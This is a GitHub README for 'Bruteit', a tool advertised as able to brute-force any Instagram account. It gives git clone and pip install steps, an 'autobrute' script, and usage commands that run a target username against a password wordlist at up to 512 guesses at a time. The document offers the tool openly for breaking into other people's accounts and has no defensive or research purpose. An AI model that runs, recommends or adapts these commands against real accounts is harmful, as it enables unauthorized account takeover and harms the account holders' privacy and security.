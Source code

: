 # Bruteit
instagram bruteforcer automated
USING THIS TOOL YOU CAN BRUTEFORCE ANY INSTAGRAM ACCOUNTS
THIS TOOL WAS MODIFIED BY ME,,,
I ADDED A FEATURE OF AUTOBRUTE , WHICH MAKES YOU ALL RUN EASILY

INSTALLATION
---------------------------------------
* git clone https://github.com/H4ckr0pZ/Bruteit 
* cd Bruteit
* python3 -m pip install -r requirements.txt
---------------------------------------
================
RUNNING or USAGE
================

FOR AUTOMATED BRUTING
------------------------
* bash autobrute.sh 
```
------------------------
FOR MANUAL RUNNNING
-------------------------
python3 instagram.py <username> <wordlist> -m <mode>

### Bots(Threads)

-   4 bots: 64 passwords at a time
-   8 bots: 128 passwords at a time
-   16 bots: 256 passwords at a time
-   32 bots: 512 passwords at a time

### Modes

-   0: 32 bots
-   1: 16 bots
-   2: 8 bots
-   3: 4 bots

### Chill mode

This mode uses only 4 bots, or 64 passwords at a time.

```
python3 instagram.py thor.1 pass.lst -m 3
```

### Moderate mode 1

This mode uses 8 bots, or 128 passwords at a time.

python3 instagram.py thor.1 pass.lst -m 2
```

### Moderate mode 2

This mode uses 16 bots, or 256 passwords at a time.

```
python3 instagram.py thor.1 pass.lst -m 1
```

### Savage mode

This mode uses 32 bots, or 512 passwords at a time.

```
python3 instagram.py thor.1 pass.lst -m 0
```

### If you don't specify a mode, then mode is set to 2

